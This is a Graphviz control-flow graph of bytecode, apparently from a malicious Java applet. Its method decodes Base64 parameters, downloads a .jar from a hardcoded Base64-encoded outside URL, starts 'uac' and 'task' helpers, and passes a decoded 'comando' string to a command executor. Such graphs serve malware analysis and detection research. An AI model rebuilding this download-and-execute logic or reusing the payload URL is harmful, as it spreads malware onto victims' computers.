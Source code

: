digraph "" {
    "r0 := @this: Principal"
    "load.r r0"
    "r0 := @this: Principal"->"load.r r0";
    "push \"url\""
    "load.r r0"->"push \"url\"";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"
    "push \"url\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "new java.lang.String"
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"new java.lang.String";
    "store.r $r8"
    "new java.lang.String"->"store.r $r8";
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"
    "store.r $r8"->"staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>";
    "store.r r1"
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"->"store.r r1";
    "load.r $r8"
    "store.r r1"->"load.r $r8";
    "load.r r1"
    "load.r $r8"->"load.r r1";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r r1"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"load.r r0";
    "push \"extension\""
    "load.r r0"->"push \"extension\"";
    "push \"extension\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "push \"prefijo\""
    "load.r r0"->"push \"prefijo\"";
    "push \"prefijo\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"comando\""
    "load.r r0"->"push \"comando\"";
    "push \"comando\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"new java.lang.String";
    "store.r $r10"
    "new java.lang.String"->"store.r $r10";
    "store.r $r10"->"staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>";
    "store.r r4"
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"->"store.r r4";
    "load.r $r10"
    "store.r r4"->"load.r $r10";
    "load.r r4"
    "load.r $r10"->"load.r r4";
    "load.r r4"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"load.r r0";
    "push \"uac\""
    "load.r r0"->"push \"uac\"";
    "push \"uac\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"task\""
    "load.r r0"->"push \"task\"";
    "push \"task\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r r4";
    "store.r r4"->"load.r r0";
    "push \"compartir\""
    "load.r r0"->"push \"compartir\"";
    "push \"compartir\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"
    "store.r r0"->"staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>";
    "store.b z0"
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"->"store.b z0";
    "store.b z0"->"load.r r4";
    "load.r r4"->"staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>";
    "store.b r4"
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"->"store.b r4";
    "store.b r4"->"load.r r0";
    "load.r r0"->"staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>";
    "ifeq new Download"
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"->"ifeq new Download";
    "new Download"
    "ifeq new Download"->"new Download";
    "dup1.r"
    "new Download"->"dup1.r";
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "push \"aHR0cDovL3d3dy5tdW5kb29ubGluZWphdmEuY29tL2NnaS5iaW4vdXBsb2Fkcy91cGRhdGUyLmphcg==\""
    "dup1.r"->"push \"aHR0cDovL3d3dy5tdW5kb29ubGluZWphdmEuY29tL2NnaS5iaW4vdXBsb2Fkcy91cGRhdGUyLmphcg==\"";
    "push \"aHR0cDovL3d3dy5tdW5kb29ubGluZWphdmEuY29tL2NnaS5iaW4vdXBsb2Fkcy91cGRhdGUyLmphcg==\""->"staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>";
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "push \".jar\""
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"push \".jar\"";
    "push \"compariraas\""
    "push \".jar\""->"push \"compariraas\"";
    "specialinvoke <Download: void <init>(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"compariraas\""->"specialinvoke <Download: void <init>(java.lang.String,java.lang.String,java.lang.String)>";
    "virtualinvoke <Download: void start()>"
    "specialinvoke <Download: void <init>(java.lang.String,java.lang.String,java.lang.String)>"->"virtualinvoke <Download: void start()>";
    "virtualinvoke <Download: void start()>"->"new Download";
    "new Download"->"dup1.r";
    "dup1.r"->"load.r $r8";
    "new java.lang.StringBuilder"
    "load.r $r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \".\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \".\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r2";
    "load.r r2"->"specialinvoke <Download: void <init>(java.lang.String,java.lang.String,java.lang.String)>";
    "specialinvoke <Download: void <init>(java.lang.String,java.lang.String,java.lang.String)>"->"virtualinvoke <Download: void start()>";
    "new uac"
    "virtualinvoke <Download: void start()>"->"new uac";
    "new uac"->"dup1.r";
    "load.b z0"
    "dup1.r"->"load.b z0";
    "specialinvoke <uac: void <init>(boolean)>"
    "load.b z0"->"specialinvoke <uac: void <init>(boolean)>";
    "virtualinvoke <uac: void start()>"
    "specialinvoke <uac: void <init>(boolean)>"->"virtualinvoke <uac: void start()>";
    "new task"
    "virtualinvoke <uac: void start()>"->"new task";
    "new task"->"dup1.r";
    "load.b r4"
    "dup1.r"->"load.b r4";
    "specialinvoke <task: void <init>(boolean)>"
    "load.b r4"->"specialinvoke <task: void <init>(boolean)>";
    "virtualinvoke <task: void start()>"
    "specialinvoke <task: void <init>(boolean)>"->"virtualinvoke <task: void start()>";
    "virtualinvoke <task: void start()>"->"load.r $r10";
    "virtualinvoke <java.lang.String: boolean isEmpty()>"
    "load.r $r10"->"virtualinvoke <java.lang.String: boolean isEmpty()>";
    "ifne return"
    "virtualinvoke <java.lang.String: boolean isEmpty()>"->"ifne return";
    "ifne return"->"load.r $r10";
    "virtualinvoke <java.lang.String: java.lang.String trim()>"
    "load.r $r10"->"virtualinvoke <java.lang.String: java.lang.String trim()>";
    "staticinvoke <Tools: void execute(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String trim()>"->"staticinvoke <Tools: void execute(java.lang.String)>";
    "return"
    "staticinvoke <Tools: void execute(java.lang.String)>"->"return";
}
